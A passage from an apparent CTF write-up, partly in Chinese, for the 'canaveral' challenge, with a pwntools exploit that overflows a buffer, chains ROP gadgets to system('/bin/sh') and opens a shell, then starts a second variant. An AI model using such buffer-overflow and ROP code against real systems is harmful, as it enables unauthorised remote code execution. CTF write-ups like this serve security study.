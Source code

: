 ```python
context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x401289
    system = 0x401218
    payload = flat(
        b"A" * 0x40,
        elf.bss() + 0xF00,
        read,
    )
    raw_input("DEBUG")
    target.sendlineafter("Enter the launch sequence: ", payload)

    payload = flat(
        b"A" * 0x38,
        next(elf.search(b"/bin/sh")),
        0x404F28,
        system,
    )
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

### Exploit - II

下面是自己构造 `/bin/sh` 的成功版，我发现只要把自己构造的 `/bin/sh` 和调用 system 的 ROP Chain 写在相同的区域，libc 内部就会破坏 `/bin/sh`，那干脆试试写到别的地方去，比如这里写入到栈中（注意栈上也会因为重叠问题，导致部分输入被破坏，不过还是有没被破坏的地方可以用的）：

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./canaveral"
HOST, PORT = "chal.sunshinectf.games", 25603

context(log_level="debug", binary=FILE, terminal="kitty")
```